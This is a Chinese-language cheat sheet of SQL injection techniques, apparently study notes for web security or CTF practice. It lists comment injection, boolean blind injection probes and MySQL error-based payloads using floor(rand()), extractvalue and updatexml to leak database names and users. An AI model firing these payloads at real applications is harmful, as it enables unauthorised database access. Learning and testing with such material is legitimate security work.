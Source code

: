 

### Access

没有库结构，只有表和列，只能通过字典爆破



## 常用 SQL 注入方式

### 注释注入

通过注释打断正常 SQL 语句

**注释**：#、-(有空格)或-+、--+、/\*\*/、/\*！...\*/



### Boolean 盲注

在页面没有回显，并且也不会在前台页面直接显示出错误信息时，可以判断页面中是否有布尔状态来尝试进行布尔盲注

例如通过构造 and 1=1 和 and 1=2 等布尔状态，观察页面是否发生变化，发生变化则可以进行布尔盲注

首先可以去

~~~sql
# 判断数据库名称长度
id=2' and length(database())=1 --+
# 逐位判断数据库名
id=1' and substr(database(),1,1)='t' --+
~~~



### 报错注入

人为地制造错误条件，使得查询结果能够出现在错误信息中，报错注入有的语句也是不用 SQL 关键词，因此在关键词被拦截的时候也可以尝试

**使用条件**：数据库查询时发生的错误会直接显示到页面中

**复杂语句版**：可以在参数后直接加上

- ~~~sql
  (select 1 from (select count(*),concat((select database() from information_schema.tables limit 0,1),floor(rand()*2))x from information_schema.tables group by x)a) --+
  
  # select database() from information_schema.tables limit 0,1) 这个才是真正的查询语句
  ~~~

**xpath 报错版**：

- 利用条件：MySQL > 5.1.5

- 函数：extractvalue()、updatexml()

- ~~~sql
  extractvalue(1,concat('^',(select database()),'^')) --+
  (updatexml(1,concat(0x7e,(select database()),0x7e),1))
  
  extractvalue(1,concat('^',(show columns form `1919810931114514`,'^'))
  # select database() 才是真正的查询语句，并且也是直接参数追加
  # id=1 and (extractvalue(1,concat(0x7e,(select user()),0x7e)))
  # id=1 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))
  ~~~
